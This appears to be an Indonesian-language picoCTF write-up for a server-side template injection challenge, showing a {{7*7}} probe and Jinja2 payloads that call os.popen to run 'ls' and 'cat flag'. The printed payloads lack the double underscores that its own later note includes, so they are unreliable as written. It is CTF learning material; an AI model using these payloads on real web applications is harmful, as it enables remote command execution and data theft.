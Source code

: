 # 🧪 picoCTF - SSTI (Server-Side Template Injection)

## 📝 Deskripsi Soal

> I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps! Check out my website here!

SSTI (Server-Side Template Injection) adalah celah keamanan yang memungkinkan penyerang menyuntikkan ekspresi template ke dalam sistem yang kemudian dievaluasi/dieksekusi oleh server. Ini biasa ditemukan pada web yang menggunakan template engine seperti Jinja2 (Python), Twig (PHP), atau lainnya.

---

## 🔍 Langkah Penyelesaian

1. Cek apakah web rentan SSTI dengan payload sederhana:

![Contoh Tampilan](Home.png)


{{7*7}}


Jika hasilnya adalah:

49


Maka website dapat dieksploitasi karena input kita dieksekusi di sisi server.

![Contoh Hasil 49](Hasil49.png)

2. Eksekusi perintah Linux untuk melihat isi direktori:

{{ config.class.init.globals['os'].popen('ls').read() }}


Output akan menampilkan daftar file dalam folder kerja aplikasi.

![Contoh Output ls](Outputls.png)

3. Untuk membaca isi file flag:

{{ config.class.init.globals['os'].popen('cat flag').read() }}


Perintah ini akan mencoba menampilkan isi file bernama flag di direktori tersebut.

![Contoh Output cat flag](screenshot-3.png)

---

## 💡 Catatan Tambahan

- Ekspresi `config.__class__.__init__.__globals__` adalah salah satu cara untuk mengakses built-in module dalam template engine Jinja2, memungkinkan kita memanggil os.popen() dan mengeksekusi command Linux.

---

## ⚠️ Disclaimer

Write-up ini dibuat berdasarkan pemahaman pribadi dalam proses belajar. Jika terdapat kekeliruan atau kekurangan, mohon dimaklumi 🙏  




